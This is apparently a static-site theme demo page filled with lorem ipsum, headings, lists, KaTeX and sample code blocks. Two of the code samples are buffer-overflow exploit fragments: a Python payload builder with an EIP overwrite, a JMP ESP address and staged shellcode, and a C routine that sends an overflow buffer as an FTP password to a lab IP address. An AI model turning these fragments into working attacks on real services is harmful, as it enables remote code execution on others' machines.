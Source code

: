 +++
title = "HTML Elements Demo"
date = 2020-01-04

[taxonomies]
categories = ["Hello world"]
+++

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Nunc eu feugiat sapien. Aenean ligula nunc, laoreet id sem in, interdum bibendum felis. Donec vel dui neque. Praesent ac sem ut justo volutpat rutrum a imperdiet tellus. Nam lobortis massa non hendrerit hendrerit. Vivamus porttitor dignissim turpis, eget aliquam urna tincidunt non. Aliquam et fringilla turpis. Nullam eros est, eleifend in ornare sed, hendrerit eget est. Aliquam tellus felis, suscipit vitae ex vel, fringilla tempus massa. Nulla facilisi. Pellentesque lobortis consequat lectus. Maecenas ac libero elit.
<!-- more -->

1. Thing
2. Thing
3. Thing

- One
- Two
- Three

```python
for cat in cats:
    print(cat)
```

---

Inline: {{ katex(body="\KaTeX") }}

Block:

{% katex(block=true) %}\KaTeX{% end %}

---

Optionally, \\( \KaTeX \\) inline and: 

\\[ \KaTeX \\]

$$ \KaTeX $$

block-style automatic rendering is also supported, if enabled in the config.

---

## H2
### H3
#### H4
##### H5
###### H6

Ut luctus dolor ut tortor hendrerit, sed hendrerit augue scelerisque. [Suspendisse](https://datenstrom.io) quis sodales dui, at tempus ante. Nulla at tempor metus. Aliquam vitae rutrum diam. Curabitur iaculis massa dui, quis varius nulla finibus a. Praesent eu blandit justo. Suspendisse pharetra, arcu in rhoncus rutrum, magna magna viverra erat, eget vestibulum enim tellus id dui. Nunc vel dui et arcu posuere maximus. Mauris quam quam, bibendum sed libero nec, tempus hendrerit arcu. Suspendisse sed gravida orci. Fusce tempor arcu ac est pretium porttitor. Aenean consequat risus venenatis sem aliquam, at sollicitudin nulla semper. Aenean bibendum cursus hendrerit. Nulla congue urna nec finibus bibendum. Donec porta tincidunt ligula non ultricies.

> Quisque viverra a eros id auctor. Proin id nibh ut nisl dignissim pellentesque et ac mi. Nullam mattis urna quis consequat bibendum. Donec pretium dui elit, a semper purus tristique et. Mauris euismod nisl eu vehicula facilisis. Maecenas facilisis non massa non scelerisque. Integer malesuada cursus erat eu viverra. Duis ligula mi, eleifend vel justo id, laoreet porttitor ex. Etiam ultricies lacus lorem, sed aliquam nulla blandit in. Maecenas vel facilisis neque, vitae fringilla eros. In justo nibh, pellentesque sed faucibus nec, varius sit amet risus.

---

Some more code:

```python
def attack(offset, payload):
    """ Execute stage one and stage two shellcode.

    Overwriting past the range here causes the program to crash differently, so
    there are two stages of shellcode. The EIP register is overwritten to
    execute a JMP ESP command which brings us to the instruction directly after
    the offset and EIP overwrite, then stage one shellcode increments the EAX
    register which is pointing at the base of the buffer by 12 which sets it
    to just after the '\x11(setup sound ' string. Then stage two shellcode can
    be added to execute the desired payload.
    """
    print("[*] Payload set to attack")

    shellcode = get_shellcode(payload)
    print("[*] Read {} byte shellcode payload".format(len(shellcode)))

    buf = '\x11(setup sound ' 
    buf += shellcode                            # Inject shellcode
    buf += '\x41' * (offset-len(shellcode))     # Offset to EIP overwrite
    buf += struct.pack('<L', 0x08134597)        # Overwrite EIP with address to JMP ESP
    buf += '\x83\xc0\x0c'                       # ADD EAX,12 - pointer past 'setup sound'
    buf += '\xff\xe0'                           # JMP EAX - go to stage 2 (shellcode)
    buf += '\x90\x90'                           # OPcode padding
    buf += '\x90\x00#'

    crash = shellcode + "\x41" * (4368-105) + '\x97\x45\x13\x08' + "\x83\xc0\x0c\xff\xe0\x90\x90"
    buf = '\x11(setup sound ' + crash + '\x90\x00#'

    return buf
```

```rust
// Calculate the n-th Fibonacci number.
//
// Uses Binet's formula for a closed-form solution. First apply the
// equation then return the result rounded to the nearest integer.
fn nth_fib(n: i32) -> i64 {
    let nth = (PHI.powi(n) - PSI.powi(n)) / 5f64.sqrt();
    (nth.round() as i64)
}
```

```c
int main(int argc, char *argv[])
{
    int xs;
    char out[1024];
    char *buffer = malloc(2960);
    memset(buffer, 0x00, 2960);
    char *off = malloc(2606);
    memset(off, 0x00, 2606);
    memset(off, 0x41, 2606);
    char *nop = malloc(13);
    memset(nop, 0x00, 13);
    memset(nop, 0x90, 12);
    strcat(buffer, off);
    strcat(buffer, retadd);
    strcat(buffer, nop);
    strcat(buffer, shellcode);

    xs = conn("10.11.6.114");
    read(xs, out, 1024);
    printf("[*] %s", out);
    write(xs,"USER username\r\n", 15);
    read(xs, out, 1024);
    printf("[*] %s", out);
    write(xs,"PASS ",5);
    write(xs,buffer,strlen(buffer));
    printf("Shellcode len: %d bytes\n",strlen(shellcode));
    printf("Buffer len: %d bytes\n",strlen(buffer));
    write(xs,"\r\n",4);
    close(xs);  
}
```

Sed vulputate tristique elit, eget pharetra elit sodales sed. Proin dignissim ipsum lorem, at porta eros malesuada sed. Proin tristique eros eu quam ornare, suscipit luctus mauris lobortis. Phasellus ut placerat enim. Donec egestas faucibus maximus. Nam quis efficitur eros. Cras tincidunt, lacus ac pretium porta, dui dolor varius elit, eget laoreet justo justo vitae metus. Morbi eget nisi ut ex scelerisque lobortis ut in lorem. Vestibulum et lorem quis ipsum feugiat varius. Mauris nec nulla viverra nisi porttitor efficitur. Morbi vel purus eleifend, finibus erat non, placerat ipsum. Mauris et augue vel nisi volutpat aliquam. Curabitur malesuada tortor est, at condimentum neque eleifend in.

Morbi id ornare lacus. Suspendisse ultrices rutrum posuere. Nullam porttitor libero quis ligula finibus semper. Mauris iaculis magna et nisl tristique, eget maximus ex feugiat. Nam eu felis leo. Quisque ultrices varius purus in molestie. Duis non accumsan ligula. Vivamus dignissim malesuada metus, vel hendrerit tellus viverra id. Curabitur posuere, mauris vitae dignissim dictum, velit mi condimentum lorem, nec varius velit arcu a mi. In dolor sapien, condimentum sed aliquam at, dignissim id purus. Cras lorem leo, vulputate ac ante sed, molestie tempus lectus. Curabitur efficitur libero quam, rhoncus faucibus libero pharetra nec. Curabitur lobortis ullamcorper nisl eu imperdiet. Duis porttitor interdum magna, ac eleifend orci consequat vitae. Aliquam augue felis, faucibus vel blandit sed, maximus non turpis.

Quisque viverra a eros id auctor. Proin id nibh ut nisl dignissim pellentesque et ac mi. Nullam mattis urna quis consequat bibendum. Donec pretium dui elit, a semper purus tristique et. Mauris euismod nisl eu vehicula facilisis. Maecenas facilisis non massa non scelerisque. Integer malesuada cursus erat eu viverra. Duis ligula mi, eleifend vel justo id, laoreet porttitor ex. Etiam ultricies lacus lorem, sed aliquam nulla blandit in. Maecenas vel facilisis neque, vitae fringilla eros. In justo nibh, pellentesque sed faucibus nec, varius sit amet risus.
